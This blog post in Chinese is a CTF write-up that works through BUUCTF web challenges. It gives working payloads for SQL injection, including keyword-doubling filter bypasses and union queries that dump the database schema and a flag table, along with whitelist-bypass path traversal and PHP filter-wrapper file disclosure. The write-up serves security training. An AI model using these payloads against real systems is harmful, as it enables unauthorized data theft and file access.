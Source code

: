 ```yaml
---
title: BUUCTF-web刷题
tags: 
  - web
  - CTF
permalink: /archives/44511/
createTime: 2022-08-09 20:02:51
---
```


> BUUCTF平台的web题，持续刷。

## [极客大挑战 2019]EasySQL

- 题目：

![img](https://img.crzliang.cn/img/1659965485785-6b64d659-c5b2-4c84-a2d6-8adca00fb79f.png)

- 有登录框，第一联想到利用sql注入，直接尝试万能密码`' or '1'='1`登录

![img](https://img.crzliang.cn/img/1659965617560-a5ba0dd4-aa1f-42b2-858c-0228a48d5ff0.png)

## [HCTF 2018]WarmUp

- 一进去就只有一个滑稽脸，直接查看源码，得到source.php，进去得到源码

![img](https://img.crzliang.cn/img/1659966780771-950e19e1-5821-4413-a295-95f5b8e4e69c.png)

- 源码：

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

> 1、代码审计，发现还有一个hint.php，进去后得到`flag not here, and flag in ffffllllaaaagggg`，那也就是flag在ffffllllaaaagggg里，但是没有具体说明是在那个目录下，因此构造时候需要依次通过…/…/构造尝试，去查看到底是几层的根目录
>
> 2、代码审计，发现是白名单验证，文件包含只能包含source.php和hint.php
>
> 3、根据后面的if条件得知，file不能为空，必须为字符串，还要通过checkfile()函数的检查，才能包含。
>
> 4、其中检查共有三次，第三次要经过url解码
>
> 5、payload：`file=source.php%253f/../../../../../../ffffllllaaaagggg`

![img](https://img.crzliang.cn/img/1659967349372-dd08f2da-cd70-4bf1-837d-72ae29d9a6b4.png)

## [极客大挑战 2019]Havefun

- 查看源码

![img](https://img.crzliang.cn/img/1659967412083-2a52fb54-ea7b-4b91-afcf-d13ac14f417b.png)

- 根据源码很容易得到payload：`?cat=dog`

![img](https://img.crzliang.cn/img/1659967477695-b75a0926-7bd4-4aec-9fd6-dc9ceec4afa0.png)

## [ACTF2020 新生赛]Include

- 一上来直接给了一个tips超链接，然后进去得到

![img](https://img.crzliang.cn/img/1659967617876-e53455d1-be03-490a-9535-2b080959168d.png)

> 观察url发现有flag.php，结合题目判断这题是php伪协议
>
> payload：`?file=php://filter/read=convert.base64-encode/resource=flag.php`
>
> 把得到的base64字符串进行解码

![img](https://img.crzliang.cn/img/1659967946632-5f593b96-3985-40fc-b130-d6970949269d.png)

## [ACTF2020 新生赛]Exec

- 发现是一个ping的命令执行，测试一下其他命令是否也能执行，是成功的

![img](https://img.crzliang.cn/img/1659968049937-11d102a4-aad2-4521-addc-2565f4365f77.png)

- 那就直接抓取flag

![img](https://img.crzliang.cn/img/1659968097734-9507a5b1-d1c7-4c96-9799-28142ac652c8.png)

## [极客大挑战 2019]BabySQL

- 题目：

![img](https://img.crzliang.cn/img/1660980135444-9e2c836c-0b7b-416a-bec3-448669307193.png)

- 尝试用admin登录失败

![img](https://img.crzliang.cn/img/1660980292881-fe4cd226-1a20-4168-b380-81049dd174a2.png)

- 进行sql注入

- payload：`?username=1' order by 3&password=admin`

![img](https://img.crzliang.cn/img/1660980630189-828aecb0-e231-480b-9afe-ae74878e637a.png)

- 可以看到order的or和by均被过滤掉了

- 尝试联合注入

![img](https://img.crzliang.cn/img/1660980811662-e338fa89-2fa7-4dcf-aba6-7a04c76af288.png)

> 同样union和select也都被过滤掉了
>
> 利用双写绕过，发现有3个字段

- payload：`?username=' oorrder bbyy 4--+&password=admin`

![img](https://img.crzliang.cn/img/1660981906860-fa3011f9-ef66-4488-9a17-60d972a3fd6f.png)

- 回显位为第二个和第三个字段

- payload：`?username=' ununionion seselectlect 1,2,3--+&password=admin`

![img](https://img.crzliang.cn/img/1660982012073-e323a752-31ff-482b-8c78-bb5d7f3cd5d9.png)

- 查所有库

- payload：`?username=' ununionion seselectlect 1,2,(seselectlect group_concat(schema_name) frfromom infoorrmation_schema.schemata)--+&password=admin`

![img](https://img.crzliang.cn/img/1660983995572-138d1d45-29d6-4c8e-8214-3849ec5c205d.png)

- 查ctf库中的所有表
- payload：`?username=' ununionion seselectlect 1,2,(seselectlect group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema='ctf') --+&password=admin`

![img](https://img.crzliang.cn/img/1660984181446-440ed3b8-df44-4bd8-bdf6-23ce262e07ee.png)

- 查Flag表中的所有字段
- payload：`?username=' ununionion seselectlect 1,2,(seselectlect group_concat(column_name) frfromom infoorrmation_schema.columns whewherere table_name='Flag') --+&password=admin`

![img](https://img.crzliang.cn/img/1660984384749-570e6518-f223-45f2-9cc9-5ee6d769ad2c.png)

- 查看flag字段内的内容
- paylaod：`?username=' ununionion seselectlect 1,2,group_concat(flag) frfromom ctf.Flag--+&password=admin`

![img](https://img.crzliang.cn/img/1660983468939-228328bb-4756-402f-884b-4a9cfd20a403.png)
